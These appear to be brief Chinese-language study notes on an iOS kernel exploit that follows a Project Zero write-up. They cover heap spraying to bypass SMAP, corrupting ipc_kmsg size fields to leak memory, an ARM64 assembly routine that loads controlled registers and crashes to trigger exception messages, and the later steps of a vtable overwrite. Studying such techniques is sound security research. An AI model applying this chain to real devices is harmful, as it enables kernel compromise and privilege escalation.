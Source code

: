 

# 绕过smap的堆喷

## 如果申请大小在2048到4096，那么可以一次申请一页，因此可以绕过页内随机化。

## 另外kmsg是这次利用的主题 

struct ipc_kmsg {
  mach_msg_size_t ikm_size;
  struct ipc_kmsg * ikm_next;
  struct ipc_kmsg * ikm_prev;
  mach_msg_header_t * ikm_header;
  ipc_port_t ikm_prealloc;
  ipc_port_t ikm_voucher;
  mach_msg_priority_t ikm_qos;
  mach_msg_priority_t ikm_qos_override
  struct ipc_importance_elem * ikm_importance;
  queue_chain_t ikm_inheritance;
};

通过更改 kmsg的size来进行信息泄漏

传递一个exception_mask 的EXC_MASK_ALL，EXCEPTION_STATE 的行为和ARM_THREAD_STATE64 为new_flavor 意味着内核将发送exception_raise_state 消息，我们指定每当指定线程错误的异常端口。该消息将包含所有ARM64通用目标寄存器的状态，这就是我们将用于从ipc_kmsg 缓冲区末尾写入受控数据的内容！



### 编写

在我们的iOS XCode项目中，我们可以添加一个新的程序集文件并定义一个函数load_regs_and_crash ：

.globl _load_regs_and_crash
.align 2
_load_regs_and_crash：
mov x30，x0
ldp x0，x1，[x30,0]
ldp x2，x3，[x30,0x10]
ldp x4，x5，[x30,0x20]
ldp x6，x7，[x30,0x30]
ldp x8，x9，[x30,0x40]
ldp x10，x11，[x30,0x50]
ldp x12，x13，[x30,0x60]
ldp x14，x15，[x30,0x70]
ldp x16，x17，[x30,0x80]
ldp x18，x19，[x30,0x90]
ldp x20，x21，[x30,0xa0]
ldp x22，x23，[x30,0xb0]
ldp x24，x25，[x30,0xc0]
ldp x26，x27，[x30,0xd0]
ldp x28，x29，[x30,0xe0]
brk 0
.align 3


信息泄漏出堆地址，然后释放第二个msg，更改为OSSerializer :: serialize

泄漏内核地址，更改虚表指针



mac上大小在4096里面的类IOBluetoothHCIRequest



https://googleprojectzero.blogspot.com/2017/04/exception-oriented-exploitation-on-ios.html
